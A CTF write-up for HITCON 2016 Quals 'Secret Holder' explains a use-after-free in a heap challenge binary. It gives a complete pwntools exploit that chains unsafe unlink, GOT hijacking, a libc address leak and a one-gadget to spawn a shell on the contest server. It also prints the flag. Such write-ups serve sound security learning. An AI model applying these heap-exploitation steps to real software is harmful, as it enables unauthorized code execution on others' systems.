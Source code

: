 title: HITCON CTF 2016 Quals -- Secret Holder
tags:
  - Python
  - CTF
  - Pwnable
  - use_after_free
  - heap
  - HITCON
  - heap_overflow
categories:
  - write-ups
author: bruce30262
date: 2016-10-10 08:10:00
---
**Category:** pwn
**Points:** 100

<!-- more -->  

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 = atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big = 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge = 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small = 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python exp_secret.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`   
